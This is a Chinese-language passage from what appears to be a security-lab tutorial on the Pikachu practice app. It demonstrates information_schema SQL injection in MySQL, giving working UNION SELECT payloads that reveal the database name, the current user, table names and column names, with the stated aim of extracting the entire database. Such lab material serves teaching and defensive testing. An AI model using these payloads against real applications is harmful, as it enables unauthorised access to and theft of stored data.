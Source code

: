 **information_schema注入**

information_schema 数据库是 MySQL 系统自带的数据库。其中保存着关于 MySQL 服务器所维护的所有其他数据库的信息。通过 information_schema 注入，我们可以将整个数据库内容全部窃取出来。接下来是对 information_schema 注入的演示。
首先同之前的步骤，使用 order by 来判断查询的字段。先找出数据库的名称，输入 `a' union select database(),user(),4#%` 得到反馈，判断数据库名称为 pikachu。

![image](../../../assets/img/安全/实验/pikachu/31.png)

获取表名，输入：`a' union select table_schema,table_name,2 from information_schema.tables where table_schema='pikachu'#`

![image](../../../assets/img/安全/实验/pikachu/32.png)

获取字段名，输入：`a'union select table_name,column_name,2 from information_schema.columns where table_name='users'#%`

![image](../../../assets/img/安全/实验/pikachu/33.png)
